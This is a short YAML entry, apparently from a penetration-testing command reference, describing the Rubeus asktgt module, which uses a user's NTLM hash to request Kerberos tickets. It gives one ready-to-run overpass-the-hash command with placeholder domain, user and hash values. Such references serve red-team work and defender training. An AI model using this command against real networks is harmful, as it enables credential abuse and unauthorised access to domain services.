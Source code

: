 ```yaml
---
description: |
  Rubeus' `asktgt` module uses a valid user's NTLM hash to request Kerberos tickets, in order to access any service or machine where that user has permissions.

  Command Reference:

  	Domain: test.local

  	Username: john

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

items:
  Hash:
    - code: |
        Rubeus.exe asktgt /domain:test.local /user:john /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
  Username:
    - code: |
        empty
filters:
  Kerberos:
    - code: |
        empty
  Windows:
    - code: |
        empty
---
```

